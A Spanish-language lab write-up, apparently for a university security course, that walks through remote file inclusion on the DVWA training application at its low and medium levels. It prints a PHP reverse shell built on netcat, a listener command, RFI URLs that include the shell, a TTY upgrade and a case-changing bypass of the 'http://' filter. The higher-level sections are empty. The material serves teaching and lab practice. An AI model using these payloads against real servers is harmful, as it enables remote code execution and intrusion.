 # RFI

Remote file inclusion (RFI) es una vulnerabilidad que permite a un atacante incluir archivos de un servidor remoto. Esto puede ser utilizado para incluir archivos PHP, que luego pueden ser utilizados para ejecutar código arbitrario en el servidor.

## Bajo

Para comenzar, podemos intentar lanzar un shell remoto escrito en PHP `php-reverse-shell.php` que se encuentra en nuestro servidor local y que previamente hemos creado con el siguiente contenido:

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

A continuación, ponemos en escucha el puerto 4000 en nuestro servidor local para recibir la conexión del servidor remoto:

```bash
nc -lvnp 4000
```

Una vez puesto en escucha, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Una vez incluido el archivo, el servidor remoto intentará conectarse al servidor local en el puerto 4000, y si todo ha ido bien, obtendremos una shell remota.
Una vez hayamos obtenida la shell remota, podemos intentar mejorar la TTY para poder interactuar con ella de una manera más cómoda, para ello ejecutamos el siguiente comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Una vez mejorada la TTY, podemos intentar leer el archivo `fi.php` utilizando cat:

```bash
cat DVWA/hackable/flags/fi.php
```

![rfi](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/rfi.png)

## Medio

Al igual que en el nivel bajo, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Si probamos a ejecutarlo, comprobaremos que no funciona debido a que el servidor habra reemplazado el `http://` por una cadena vacía y por tanto no podrá conectarse al servidor local. Para poder solucionar esto, podemos probar cambiando `http` -> `Http` | `httphttp` | `HTTP` | etc.

```
http://localhost/DVWA/vulnerabilities/fi/?page=Http://localhost/php-reverse-shell.php
```

![rfi-2](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FI/assets/rfi-2.png)

Como se puede ver, se ha vuelto a visualizar el archivo `fi.php` de donde extraemos todas las citas.

## Alto

## Imposible

